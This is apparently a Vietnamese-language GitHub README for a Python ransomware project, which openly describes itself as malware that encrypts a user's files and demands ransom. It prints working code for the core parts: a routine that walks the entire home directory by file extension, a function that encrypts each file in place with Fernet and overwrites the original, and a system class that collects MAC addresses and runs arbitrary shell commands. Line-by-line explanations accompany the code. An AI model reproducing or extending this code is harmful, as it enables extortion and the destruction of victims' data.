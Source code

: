 # RANSOMWARE
Chương trình ransomware, một loại phần mềm độc hại thường sử dụng để mã hóa các tệp trên máy tính của người dùng và yêu cầu một khoản tiền chuộc để giải mã chúng.

## MODULES
**1.CRYPTO**
```python
def Process_Files(Private: Fernet, mode: str):
    for _, files in List_Files().items():
        for file in files:
            temp_file = file + '.temp'
            try:
                with open(file, 'rb') as original_file, open(temp_file, 'wb', buffering=4096*1024) as temp_file:
                    with mmap.mmap(original_file.fileno(), 0, access=mmap.ACCESS_READ) as mm:
                        offset = 0
                        while offset < len(mm):
                            chunk = mm[offset:offset + 4096 * 1024]
                            if not chunk:
                                break
                            processed_chunk = Private.encrypt(chunk) if mode == 'encrypt' else Private.decrypt(chunk)
                            temp_file.write(processed_chunk)
                            offset += len(chunk)
                shutil.move(temp_file.name, file)
            except Exception as e: pass
            finally:
                if os.path.exists(temp_file.name):
                    os.remove(temp_file.name)
```
1. Hàm *Process_Files* nhận vào hai tham số: *Private*, một đối tượng *Fernet* được sử dụng để mã hóa và giải mã, và *mode*, một chuỗi chỉ định chế độ hoạt động (‘encrypt’ hoặc ‘decrypt’).

2. Hàm này sẽ duyệt qua tất cả các tệp tin được trả về bởi hàm *List_Files*.

3. Đối với mỗi tệp, nó tạo một tệp tạm thời với tên là tên tệp gốc kèm theo ‘.temp’.

4. Nó mở tệp gốc để đọc và tệp tạm thời để ghi, với kích thước bộ đệm là 4096*1024 byte. Sử dụng mmap để ánh xạ tệp gốc vào bộ nhớ. 
Sau đó đọc và xử lý từng ‘chunk’ của tệp gốc, với kích thước ‘chunk’ là 4096*1024 byte.

5. Mỗi ‘chunk’ sau đó được mã hóa (nếu mode là ‘encrypt’) hoặc giải mã (nếu mode là ‘decrypt’) bằng cách sử dụng đối tượng Fernet, và sau đó được ghi vào tệp tạm thời.

6. Khi tất cả các ‘chunk’ đã được xử lý, tệp tạm thời được đổi tên thành tên của tệp gốc, thay thế tệp gốc. Nếu có lỗi xảy ra trong quá trình này, hàm sẽ bỏ qua lỗi và tiếp tục với tệp tiếp theo. Cuối cùng, nếu tệp tạm thời vẫn tồn tại (ví dụ, do một lỗi xảy ra), nó sẽ được xóa.
```python
def List_Files() -> dict:
    with open('scripts/extensions.yaml', 'r') as file:
        exts = Safe_Load(file)

    file_categories = {category: [] for category in exts}
    extcategory = {ext: category for category, ext_list in exts.items() for ext in ext_list}

    for entry in Path.home().rglob('*'):
        if entry.is_file() and (ext := entry.suffix.lower()) in extcategory:
            file_categories[extcategory[ext]].append(str(entry))

    return file_categories
```
1. Hàm mở tệp *‘scripts/extensions.yaml’* để đọc và sử dụng hàm *Safe_Load(file)* để phân tích dữ liệu *YAML* từ tệp này. Kết quả được lưu vào biến *exts*.

2. Tạo một từ điển *file_categories* với các khóa là các danh mục từ *exts* và giá trị là các danh sách trống. Tạo một từ điển *extcategory* mà mỗi phần mở rộng tệp trong *exts* là một khóa và giá trị tương ứng là danh mục của phần mở rộng đó.

3. Sau đó duyệt qua tất cả các tệp trong thư mục chính của người dùng. Nếu một mục là tệp và phần mở rộng của nó (được chuyển thành chữ thường) có trong *extcategory*, tệp đó sẽ được thêm vào danh mục tương ứng trong *file_categories*.
**2.SYSTEM**
```python
class System:
    def __init__(self) -> None:
        self.Windows = _os_name == 'nt'
 
    def Init(self) -> None:
        _system('')

    def Clear(self) -> None:
        return _system("cls" if self.Windows else "clear")

    def Title(self, title: str):
        if self.Windows:
            return _system(f"title {title}")

    def Size(self, x: int, y: int) -> None:
        if self.Windows:
            return _system(f"mode {x}, {y}")
    
    def Reset(self) -> None:
        execv(executable, [executable] + argv) 
    
    def Mac(self) -> str:
        try:
            address_mac = [
                address.address 
                for addresses in net_if_addrs().values() 
                for address in addresses 
                if address.family == AF_LINK
            ]
            return '|'.join(address_mac) if address_mac else 'nm'  
        except:
            return 'nm'
    
    def Command(command: str):
        return _system(command)
```
    1 variable:
        Windows      |      Cho biết người dùng đang sử dụng hệ điều hành Windows hay không
    5 functions:
        Init()       |      khởi tạo terminal để cho phép sử dụng màu sắc
        Clear()      |      xóa terminal
        Title()      |      đặt tiêu đề của terminal, chỉ dành cho Windows
        Size()       |      đặt kích thước của terminal, chỉ dành cho Windows
        Command()    |      thực thi một lệnh shell trên hệ thống máy tính